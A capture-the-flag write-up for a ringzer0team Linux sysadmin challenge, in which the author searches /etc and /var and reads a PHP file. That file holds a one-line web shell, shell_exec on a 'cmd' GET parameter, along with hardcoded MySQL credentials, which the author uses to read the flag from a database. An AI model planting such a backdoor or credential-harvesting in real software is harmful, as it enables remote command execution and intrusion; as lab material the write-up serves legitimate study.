# ringzer0team.com -- SysAdmin Linux -- Level 3

## 1. Challenge

> Dig for flag.   
>   
> User: architect  
> Password: architect password found in previous challenge

Please connect to via SSH:

```bash
$ ssh architect@challenges.ringzer0team.com -p 10152
```

## 2. Solution

There are two directories that may contain the secret in Linux. One is `/etc` and the other is `/var`.

I tried to search some strings in `/etc` but got nothing more:

```bash
$ grep "Flag-" -R /etc 2>/dev/null
$ grep "flag-" -R /etc 2>/dev/null
$ grep "FLAG-" -R /etc 2>/dev/null
$ grep "pass" -R /etc 2>/dev/null
$ grep "Pass" -R /etc 2>/dev/null
$ grep "password" -R /etc 2>/dev/null
$ grep "Password" -R /etc 2>/dev/null
```

So I went to `/var`. After I type `ls`, I found that it has `www` directory.

```bash
architect@lxc-sysadmin:/var$ ls
backups  cache  lib  local  lock  log  mail  opt  run  spool  tmp  www
```

Generally speaking, `www` stores something about website. So I took a look:

```bash
architect@lxc-sysadmin:/var$ ls www
index.php
architect@lxc-sysadmin:/var$ cat ./www/index.php
<?php
if(isset($_GET['cmd'])) {
  $res = shell_exec(urldecode($_GET['cmd']));
  print_r(str_replace("\n", '<br />', $res));
  exit();
}
$info = (object)array();
$info->username = "arch";
$info->password = "asdftgTst5sdf6309sdsdff9lsdftz";
$id = 1003;
...
...
...
$mysqlDatabaseName ="arch";
$mysqlUserName ="arch";
$mysqlPassword ="asdftgTst5sdf6309sdsdff9lsdftz";
$mysqlHostName ="127.0.0.1";
$mysqlExportPath ="/var/tmp/ar.sql";
```

Here I found a mysql credential. So let's go to see MySQL database.

```bash
$ mysql -u arch -p
Enter password:
...
...
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| arch               |
+--------------------+
2 rows in set (0.01 sec)

mysql> use arch
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+----------------+
| Tables_in_arch |
+----------------+
| arch           |
| flag           |
+----------------+
2 rows in set (0.00 sec)

mysql> select * from arch;
Empty set (0.00 sec)

mysql> select * from flag;
+---------------------------------+
| flag                            |
+---------------------------------+
| FLAG-0I68UrLA758G5G30806w637a4k |
+---------------------------------+
1 row in set (0.00 sec)
```

Here you can see the flag.

